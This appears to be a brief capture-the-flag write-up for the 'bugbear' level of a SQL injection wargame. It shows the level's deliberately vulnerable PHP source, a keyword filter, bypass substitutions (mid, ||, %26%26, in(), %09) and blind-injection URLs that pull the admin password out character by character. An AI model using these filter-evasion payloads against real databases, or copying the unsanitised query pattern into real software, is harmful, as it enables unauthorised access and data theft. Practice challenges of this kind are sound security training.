

query : select id from prob_bugbear where id='guest' and pw='' and no=
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
substr -> mid		or -> ||		and -> %26%26		=과 like -> in()		space -> %09
https://los.eagle-jump.org/bugbear_4~8.php?pw=&no="" || id in ("admin") %26%26 mid(pw,1,1) in ("7")
https://los.eagle-jump.org/bugbear_4~8.php?pw=&no="" || id in ("admin") %26%26 mid(pw,2,1) in (“2")
pw=&no=""%09||%09id%09in%09("admin")%09%26%26%09mid(pw,1,1)%09in%09("7")